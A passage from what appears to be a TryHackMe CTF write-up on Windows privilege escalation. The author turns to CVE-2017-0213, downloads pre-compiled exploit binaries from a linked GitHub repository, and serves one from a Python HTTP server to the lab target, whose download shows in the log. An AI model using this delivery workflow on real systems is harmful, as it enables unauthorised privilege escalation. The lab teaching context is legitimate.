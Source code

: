 <br>

![](images/retro14.png)

<br>

Maybe it's not a rabbit hole and I'm just doing something wrong?

I do some google searching to read up on this exploit and happen upon a TryHackMe forum post where other users are having the same issue with this exploit and it's recommended that as a work around to look into **CVE-2017-0213**.

I find a GitHub repository that has pre-compiled binaries in it [**here**](https://github.com/eonrickity/CVE-2017-0213) and download the x64 version.

I then start up a http server on my system with `python3 -m http.server 80` and on the target system open Chrome and download the file:

```
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.2.100 - - [27/Jan/2022 15:13:23] "GET /CVE-2017-0213_x64.exe HTTP/1.1" 200 -
```

<br>

![](images/retro15.png)
